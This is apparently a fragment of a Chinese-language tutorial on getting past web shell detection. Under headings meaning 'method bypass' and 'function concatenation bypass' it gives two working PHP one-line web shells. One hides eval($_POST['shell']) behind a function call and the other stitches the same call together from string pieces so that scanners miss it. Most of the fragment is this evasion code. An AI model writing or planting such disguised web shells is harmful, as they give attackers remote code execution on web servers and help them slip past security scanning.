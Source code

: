 ![](img/4.png)

---

**方法绕过**
```php
<?php function fun(){return $_POST;}eval(fun()['shell']);?>
```
其实就是构造了 `eval($_POST['shell']);`

![](img/11.png)

---

**函数拼接绕过**
```php
<?php
function fun(){
    return 'al($_';
}
eval('@ev'.fun().'POST[shell]);');
?>
```